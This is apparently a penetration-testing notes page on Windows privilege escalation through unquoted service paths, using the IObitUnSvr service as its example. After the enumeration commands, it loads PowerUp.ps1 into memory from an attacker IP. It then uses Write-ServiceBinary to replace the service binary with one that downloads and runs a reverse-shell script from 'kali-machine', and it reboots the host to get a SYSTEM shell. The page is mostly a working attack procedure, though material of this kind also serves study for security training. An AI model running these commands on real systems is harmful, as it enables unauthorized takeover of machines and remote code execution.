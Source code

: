 ```yaml
---
description: Unquoted Service Paths – Windows Privilege Escalation
---
```


# Unquoted Service Path

In simple terms, when a service is created whose executable path contains spaces and isn't enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).

### Manual Checks

Check service without quotes:

{% code overflow="wrap" %}
```powershell
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName | fl
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh9ULjlxyh9cZBBJjUL8cZVu3M-7qFG7meVAxsW4FiJEJw60hrqTNJGp5JKIDuJAgvA8b_uA7VwEJRPCVKyNRrdcuArrecDjMPoQHkM-29CA9ps9qGvEA5zZ1LnzRLLqBK9fVsl-gkmdgO-ZJEGg3ekkKEldE6pnQqUG7ZnYN3YZjNaHIzq8cJ9aC7B6AA/s1100" alt=""><figcaption><p>Manual check</p></figcaption></figure>

Check File or Directory Permissions:

{% code overflow="wrap" %}
```powershell
Get-ACL -Path 'C:\Program Files (x86)\IObit' | fl
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjAHSEWYdPfXwrMzTr-rDd_Q4zjlAZYNIKOH_T_Rp9rUsHAlXVyRsLtDaQUg7xag6RSFHKI9PD9Ya9oJxXVOnRXIu3TSBqvkOkINizMDsTxTl85XfoFkwRjBe2XxgMyEnChww1U_0UsYnDR1CUUovVMS9pQZ-rZpDWnNlYG4lr4Ju1P-VcWorBVqAnRTdA/s1246" alt=""><figcaption><p>Check directory permissions</p></figcaption></figure>

Check Service Permissions:

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName Win32_Service -Filter "Name = 'IObitUnSvr'" | Select-Object *
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEggc4bxxV7hWZkUevIcBdiEr5IqyJHQRrGSVR3Ew5vQdV7pXefBeEMIEGf_2NYc3t6FQe9RqTdaHN5tyvF97-cgq8euiqcnT8sd8TODAfJoqXUtYT3ypbs25gY1uM1G5W9gBq5pIxXD0f7Nm-w2nzBV8l072vNTaXO-7YkblmSQFrGKLIn1eoq19iwim9E/s1200" alt=""><figcaption><p>Check service details</p></figcaption></figure>

### Unquoted Service Path with PowerUp

First, import PowerUp.ps1 to memory.

{% code overflow="wrap" %}
```powershell
iex ((New-Object Net.WebClient).DownloadString('http://192.168.45.243/OSEP/powershell/PowerUp.ps1'))
```
{% endcode %}

Then, check for privilege escalation vectors using this command:

```powershell
Invoke-AllChecks | fl
```

Alternatively, for checking unquoted service paths specifically, use this command:

{% code overflow="wrap" %}
```powershell
Get-UnquotedService | fl
```
{% endcode %}

Example output:

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjK2LaEmmu6Tbxf0wxyKX7Y_3_z_LGYLG125rC737IPRZP3hTykFedpcrBlkfpSTfbm25LR8LT31Zi2vm8E9fuQQnO0dHkZbVsmgafiF3zSKP8xy-I4v4QhTknDt55UQfwVji8MGOBfLwEVIdggT_zhpm4G9w4yOO-o5o-wUWWH8ZfXdQRxwwJvhI_cWTM/s1000" alt=""><figcaption><p>Vulnerable Service</p></figcaption></figure>

For detail information about the vulnerable service, use this command:

```powershell
Get-ServiceDetail -Name IObitUnSvr | Select-object *
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhVvC5lZFNE3MlrI8KYn4O_ELE7h0ViBEmn48GBVOO0X3f10C8xX5wYelLf9EnfWjVHXesysZ0VCb161VK_W385PrSPgzvoBuVZCr3zH8OLb9f4wrk1dZWNiZwR9nK00XK94y6c3sGByqoGN-w7oMZJChQ1CgLXLooi8uGcvy3qpcJ9QazD4e-OlJ3JiNQ/s1200" alt=""><figcaption><p>Service Details</p></figcaption></figure>

Now, for abusing the service, you can use Write-ServiceBinary command:

{% code overflow="wrap" %}
```powershell
Write-ServiceBinary -Name IObitUnSvr -Path "C:\Program Files (x86)\IObit\IObit.exe" -Command "powershell iex ((New-Object Net.WebClient).DownloadString('http://kali-machine/revshell.ps1'))" | fl
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgZNdkk1NgkIZ-Gp45SRhTPdY3mpPlt6DLm5cyimOTIXYJLCl885s8MUUZux3cWN6-rezWhhbfxB5c9WRgWP9_dUp7TZSR30JxN5sMalw_UqVsfhfs_NMKA0K5GdFUa7BFOwPp0uuqM_AFSy1mhPo-jV_nkTjX0rO43aYqQ0mQ_kIq4KoRoZD_bvkK8AjY/s1200" alt=""><figcaption><p>Write-ServiceBinary</p></figcaption></figure>

Basically, the above command will replace the original files with a malicious file that contains a reverse shell command.

If you have ability to restart the service, you can run:

```powershell
Stop-Service -Name 'IObitUnSvr'
Start-Service -Name 'IObitUnSvr'
```

But, since you don't have the privilege to restart the service (CanRestart = False), you can reboot the machine since the service is set to autostart.

```bash
shutdown -r -t 0
```

Now, your netcat listener will have a session with the NT\SYSTEM user.

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj8zqxQ_QymJMlPFkcSDdugZ472sJv4H2HdySLU2LJPV2qnMfaC5uF2mvq5AeAzYfdpfCFnBddUtiO4ZC4SZq1zNh3-XyfL0Kc7bAfKEUh1zaMOpzJjksuX1QmPC88jbs0SEgIKWJt27qzFCZjk0xpB2_2_kdNOOExqjkwFkVW9FtlUtHZWarFboVRk2M4/s1100" alt=""><figcaption><p>Shell as Admin</p></figcaption></figure>
